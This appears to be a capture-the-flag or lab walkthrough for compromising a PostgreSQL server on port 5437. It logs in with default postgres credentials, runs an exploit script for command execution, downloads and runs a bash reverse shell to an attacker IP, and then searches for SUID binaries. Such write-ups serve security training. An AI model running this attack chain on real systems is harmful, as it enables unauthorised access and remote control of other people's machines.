





# 5437

Now we find postgres so trying login:
With postgres:postgres
```
psql -U postgres -W -h 192.168.212.47 -p 5437
```
Now checking version:
```
SELECT version();SD
```


Now we can use an exploit for this version:

```
python3 postgres.py -i 192.168.212.47 -P postgres -U postgres -p 5437 -c whoami 
```

Now to get a shell:
shell.sh:
```
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.236/445 0>&1
```
```
python3 postgres.py -i 192.168.212.47 -P postgres -U postgres -p 5437 -c 'wget http://192.168.45.236/shell.sh'

python3 postgres.py -i 192.168.212.47 -P postgres -U postgres -p 5437 -c 'bash shell.sh' 
```
Now we get a shell:
\\
Now running linpeas.

We dont fine anything.
Running manual enumeration to find SUID binaries:
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```


